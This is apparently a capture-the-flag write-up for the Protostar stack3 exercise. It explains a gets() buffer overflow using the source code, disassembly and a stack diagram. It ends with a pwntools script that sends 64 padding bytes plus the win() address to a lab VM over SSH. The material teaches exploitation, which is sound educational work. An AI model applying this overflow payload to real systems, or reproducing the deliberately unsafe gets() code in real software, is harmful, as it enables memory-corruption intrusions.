

# Stack 3


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp(); 
  }
}

```
vulnerability :  usage of gets() function will lead to buffer overflow

Goal : Overwrite the function pointer fp with the address of the 'win' function.

# static analysis

```asm
0x08048438 <main+0>:	push   ebp
0x08048439 <main+1>:	mov    ebp,esp
0x0804843b <main+3>:	and    esp,0xfffffff0
0x0804843e <main+6>:	sub    esp,0x60
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0 <--- 3) fp is store in [esp+0x5c]
0x08048449 <main+17>:	lea    eax,[esp+0x1c]   <--- 2) eax point on [esp+0x1c]
0x0804844d <main+21>:	mov    DWORD PTR [esp],eax  <--- 1) eax points on the content of 'buffer'
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    eax,0x8048560
0x08048461 <main+41>:	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret 

```

The stack look like this : 


```


  |  |                     |
  |  |     fp              | 
  |  |                     | 
  |  |---------------------|esp+0x5c (esp+92)
  |  |                     |
  |  |       buffer        |   
  |  |                     |
  |  |---------------------|esp+0x1c  (esp+28)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v

```

Thanks to  gets() function we can overwrite fp with the address of the 'win' function.
We need to write 0x5c - 0x1c = 64 bytes into buffer and then add the address of the win function.


## address of win : 

```
(gdb) disassemble win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   ebp
0x08048425 <win+1>:	mov    ebp,esp
0x08048427 <win+3>:	sub    esp,0x18
0x0804842a <win+6>:	mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:	call   0x8048360 <puts@plt>
0x08048436 <win+18>:	leave  
0x08048437 <win+19>:	ret    
End of assembler dump.

```

Let's jump at 0x08048424 (first address of the prologue)


# script 


```python
from pwn import *


r = ssh(host='192.168.160.128', user='user', password='user')

my_pg = r.run(['/opt/protostar/bin/stack3'])
payload = b'A'*64 + p32(0x08048424)
my_pg.sendline(payload)

print(my_pg.recvline())
print(my_pg.recvline())

```

The response we got : 




Thanks for reading and hope you learn something !!